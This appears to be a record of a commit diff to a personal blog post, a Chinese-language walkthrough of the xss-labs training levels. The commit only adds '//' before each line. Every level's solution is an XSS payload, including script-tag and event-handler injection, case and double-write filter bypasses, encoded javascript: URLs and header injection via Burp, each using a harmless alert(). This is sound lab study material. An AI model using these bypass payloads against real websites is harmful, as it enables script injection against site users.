

Before and after one commit to GuoKet/GuoKet.github.io, a plain HTML site: page 2022/04/25/xss-labs/index.html in a window 1280 px wide. Shown: the part 306-1122 px from the top of the page, without its empty margins (233-1043 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2022-04-25 16:44:59

```diff
--- a/2022/04/25/xss-labs/index.html
+++ b/2022/04/25/xss-labs/index.html
@@ -11,8 +11,8 @@
 
 
   <meta name="description" content="XSS-vulfocus/xss-labs
-第一关：通过控制台输入alert()或者通过URL上test替换为alert(/xss/)。
-第二关：将keyword的值替换为keyword=”&amp;gt;alert(&#39;xss&#39;) //或者用&amp;quot;&amp;gt;闭合value标签”&amp;gt;alert(1)。">
+//第一关：通过控制台输入alert()或者通过URL上test替换为alert(/xss/)。
+//第二关：将keyword的值替换为keyword=”&amp;gt;alert(&#39;xss&#39;) //或者用&amp;quot;&amp;gt;闭合value标签”&amp;gt;alert">
 
 
 
@@ -82,19 +82,19 @@
     <div class="entry">
 
         <p>XSS-vulfocus/xss-labs</p>
-<p>第一关：通过控制台输入alert()或者通过URL上test替换为<script>alert(/xss/)</script>。</p>
-<p>第二关：将keyword的值替换为keyword=”&gt;<script>alert('xss')</script> //或者用<code>&quot;&gt;</code>闭合value标签”&gt;<script>alert(1)</script>。</p>
-<p>第三关：将keyword的值替换为keyword=’onfocus=javascript:alert(‘xss’) &gt; //&amp;submit=搜索，鼠标移至输入框。</p>
-<p>第四关：将keyword的值替换为keyword=”onfocus=javascript:alert(‘xss’) “，点击输入框。</p>
-<p>第五关：将keyword的值替换为keyword=”&gt; &lt;a href=javascript:alert(‘xss’) &gt; xss</a> //，点击链接</p>
+<p>//第一关：通过控制台输入alert()或者通过URL上test替换为<script>alert(/xss/)</script>。</p>
+<p>//第二关：将keyword的值替换为keyword=”&gt;<script>alert('xss')</script> //或者用<code>&quot;&gt;</code>闭合value标签”&gt;<script>alert(1)</script>。</p>
+<p>//第三关：将keyword的值替换为keyword=’onfocus=javascript:alert(‘xss’) &gt; //&amp;submit=搜索，鼠标移至输入框。</p>
+<p>//第四关：将keyword的值替换为keyword=”onfocus=javascript:alert(‘xss’) “，点击输入框。</p>
+<p>//第五关：将keyword的值替换为keyword=”&gt; &lt;a href=javascript:alert(‘xss’) &gt; xss</a> //，点击链接</p>
 <p>或者直接通过超链接输入”&gt; 12<a href="javascript:alert(1)">34</a></p>
-<p>第六关：大小写绕过，”&gt;<Script>alert(1)</script></p>
-<p>第七关：双写绕过的方式，”&gt;<scscriptript>alert(1)</scrscriptipt></p>
-<p>第八关：转义字符绕过的方式，java&amp;#115cript:alert(1)</p>
-<p>第九关：链接不合法，所以添加https//，不过直接加语句不合法，所以在最后面注释掉http://通过检测就行，java&amp;#115cript:alert(1)  //http:// </p>
-<p>第十关：查看源代码得知有三个值被隐藏掉了，对这三个值依次赋值查看源码，得知只有第三个值有反应，将第三个值赋为” type=”text” onmouseover=”alert(1)</p>
-<p>第十一关：查看源代码得知有t_ref的value是个URL，burp抓包将reference替换为click me !” type=”button” onclick=”alert(/xss/)</p>
-<p>第十二关：查看源代码得知有t_ua的value有内容，burp抓包将user-Agent替换为click me !” type=”button” onclick=”alert(/xss/)</p>
+<p>//第六关：大小写绕过，”&gt;<Script>alert(1)</script></p>
+<p>//第七关：双写绕过的方式，”&gt;<scscriptript>alert(1)</scrscriptipt></p>
+<p>//第八关：转义字符绕过的方式，java&amp;#115cript:alert(1)</p>
+<p>//第九关：链接不合法，所以添加https//，不过直接加语句不合法，所以在最后面注释掉http://通过检测就行，java&amp;#115cript:alert(1)  //http:// </p>
+<p>//第十关：查看源代码得知有三个值被隐藏掉了，对这三个值依次赋值查看源码，得知只有第三个值有反应，将第三个值赋为” type=”text” onmouseover=”alert(1)</p>
+<p>//第十一关：查看源代码得知有t_ref的value是个URL，burp抓包将reference替换为click me !” type=”button” onclick=”alert(/xss/)</p>
+<p>//第十二关：查看源代码得知有t_ua的value有内容，burp抓包将user-Agent替换为click me !” type=”button” onclick=”alert(/xss/)</p>
 
 
     </div>
```
Also changed, not shown: index.html (+12 -12 lines).
